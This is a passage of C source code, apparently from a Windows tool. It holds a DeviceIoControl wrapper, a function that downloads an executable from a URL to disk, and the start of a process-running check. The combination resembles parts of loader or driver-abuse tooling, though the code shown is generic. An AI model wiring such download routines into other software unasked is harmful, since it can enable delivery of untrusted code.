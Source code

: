 ```c
    }

    Result = DeviceIoControl(HandleDevice, DwIoControlCode, InBuffer, InBufferSize, OutBuffer, OutBufferSize, &BytesReturned, NULL);
    if (!Result) {
        CloseHandle(HandleDevice);
        return FALSE;
    }

    CloseHandle(HandleDevice);
    return TRUE;
}

BOOLEAN DownloadExecutable(const CHAR* url, const CHAR* filePath) {
    HINTERNET hInternet = NULL, hUrl = NULL;
    HANDLE hFile = INVALID_HANDLE_VALUE;
    BYTE buffer[4096];
    DWORD bytesRead = 0, bytesWritten = 0;
    BOOLEAN result = FALSE;

    hInternet = InternetOpenA("WinINet Example", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        printf("Failed to open internet session. Error: %lu\n", GetLastError());
        return FALSE;
    }

    hUrl = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hUrl == NULL) {
        printf("Failed to open URL. Error: %lu\n", GetLastError());
        InternetCloseHandle(hInternet);
        return FALSE;
    }

    hFile = CreateFileA(filePath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to create file. Error: %lu\n", GetLastError());
        InternetCloseHandle(hUrl);
        InternetCloseHandle(hInternet);
        return FALSE;
    }

    while (InternetReadFile(hUrl, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
        if (!WriteFile(hFile, buffer, bytesRead, &bytesWritten, NULL)) {
            printf("Failed to write to file. Error: %lu\n", GetLastError());
            CloseHandle(hFile);
            InternetCloseHandle(hUrl);
            InternetCloseHandle(hInternet);
            return FALSE;
        }
    }
    result = TRUE;

    CloseHandle(hFile);
    InternetCloseHandle(hUrl);
    InternetCloseHandle(hInternet);

    return result;
}

BOOLEAN IsProcessRunning(DWORD ProcessID) {
    HANDLE HandleProcessSnap = NULL;
    PROCESSENTRY32 PE32;
```